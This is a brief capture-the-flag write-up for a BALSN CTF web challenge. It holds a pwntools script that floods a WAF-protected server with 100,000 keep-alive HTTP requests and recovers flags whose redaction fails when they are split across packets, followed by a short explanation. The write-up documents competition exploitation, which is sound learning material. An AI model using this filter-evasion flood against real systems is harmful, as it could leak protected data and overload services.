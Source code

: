 

## Transformer: The Guardian Knight


Solved By: Corb3nik


```
#!/usr/bin/env python3

from pwn import *
import re

# BALSN{REDACT_is_this_WAF-+!}

PACKET = """GET / HTTP/1.1\r\n\r\n"""
p = remote("waf.balsnctf.com", 8889)
p.send(PACKET * 100000)

out = p.recvall()
flags = re.findall(b"BALSN{.+?}", out)
print(set(flags))
```


if the response chunk has BALSN{...the.flag...}, it''l get redacted... But if the chunk contains BALNS{... (note the missing end because of packet fragmentation), it wont replace


so if you send a bunch of HTTP requests with keep-alive, the server will send back the flag 100000 times, and hopefully, one of the flags will be split between two packets, and not get redacted
